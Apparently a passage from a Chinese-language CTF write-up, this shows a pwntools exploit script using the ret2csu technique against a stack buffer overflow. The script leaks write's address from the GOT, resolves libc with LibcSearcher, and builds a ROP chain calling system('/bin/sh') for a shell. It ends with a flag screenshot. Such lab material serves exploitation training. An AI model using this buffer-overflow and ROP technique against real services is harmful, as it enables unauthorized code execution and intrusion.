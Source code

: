 ~~~python
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = b'a' * (0x100+0x8) 
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38
    payload += p64(last)
    p.sendlineafter('Input:\n',payload)
    sleep(1)

csu(0,1,1,write_got,8,write_got,main_addr)
write_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))

libc = LibcSearcher('write',write_addr)
base_addr = write_addr - libc.dump('write')
system = base_addr + libc.dump('system')
binsh = base_addr + libc.dump('str_bin_sh')

payload = b'a'*0x108+p64(ret_addr) +p64(pop_rdi_addr)+p64(binsh) +p64(system)

p.sendlineafter('Input:\n',payload)
p.interactive()
~~~

运行结果：

![ret2csu-flag](./assets/ret2csu-flag.png)